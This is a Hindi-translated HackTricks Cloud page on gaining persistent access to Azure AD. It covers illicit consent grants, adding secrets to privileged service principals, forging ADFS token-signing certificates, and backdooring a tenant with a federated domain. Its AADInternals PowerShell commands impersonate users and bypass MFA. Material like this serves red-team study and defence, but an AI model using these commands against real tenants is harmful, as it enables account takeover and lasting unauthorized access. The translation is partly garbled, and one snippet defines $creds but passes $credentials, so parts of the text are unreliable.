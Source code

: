 # Az - Persistence

<details>

<summary><strong>बनेंफिट प्राप्त करें और HackTricks का समर्थन करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

### अनैतिक सहमति अनुदान

डिफ़ॉल्ट रूप से, किसी भी उपयोगकर्ता को Azure AD में एक एप्लिकेशन पंजीकृत करने की अनुमति होती है। इसलिए आप एक ऐसा एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित किरायेदार के लिए) जिसमें उच्च प्रभाव की अनुमतियाँ होती हैं और व्यवस्थापक सहमति के साथ इसे स्वीकार कर सकते हैं (यदि आप व्यवस्थापक हैं) - जैसे कि उपयोगकर्ता के नाम पर मेल भेजना, भूमिका प्रबंधन आदि। यदि सफलता के मामले में यह हमें **फिशिंग हमले को कामयाबी प्राप्त होगी**।

इसके अलावा, आप इस एप्लिकेशन को अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि आपके पास इस पर पहुंच बनी रहे।

### एप्लिकेशन और सेवा प्रिंसिपल

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों वाली एक कस्टम भूमिका के साथ, हम मौजूदा एप्लिकेशन में क्रेडेंशियल (सीक्रेट या प्रमाणपत्र) जोड़ सकते हैं।

यह संभव है कि हम **उच्च अनुमतियों वाले एक एप्लिकेशन को लक्षित करें** या **उच्च अनुमतियों वाले एक नया एप्लिकेशन जोड़ें**।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका होगी **विशेषाधिकारित प्रमाणीकरण प्रशासक भूमिका** क्योंकि इससे **वैश्विक प्रशासकों का पासवर्ड रीसेट** करने की अनुमति होती है।

यह तकनीक भी **MFA को दौरा करने की अनुमति** देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### संघ - टोकन साइन करने वाला प्रमाणपत्र

**DA विशेषाधिकार** के साथ on-prem AD पर, नए टोकन साइन करने और टोकन डिक्रिप्ट प्रमाणपत्र बनाना और आयात करना संभव है जिनकी बहुत लंबी मान्यता होती है। इससे हमें उन उपयोगकर्ता के रूप में **लॉग-इन करने की अनुमति** मिलेगी जिनके ImuutableID हमें पता है।

नीचे दिए गए कमांड को **ADFS सर्वर (ओं) पर DA के रूप में चलाएं** नए प्रमाणपत्र (डिफ़ॉल्ट पासवर्ड 'AADInternals') बनाने के लिए, उन्हें ADFS में जोड़ें, ऑटो रोलवर को अक्षम करें और सेवा को पुनरारंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
तब, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### संघ - विश्वसनीय डोमेन

एक किरायेदार पर जीए अधिकारों के साथ, एक नया डोमेन जोड़ना संभव है (सत्यापित होना चाहिए), इसकी प्रमाणीकरण प्रकार को संघीय और डोमेन को एक विशेष प्रमाणपत्र (नीचे दिए गए कमांड में any.sts) और जारक को विश्वास करने के लिए कॉन्फ़िगर करना संभव है:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फ़ॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके अपना योगदान दें।

</details>
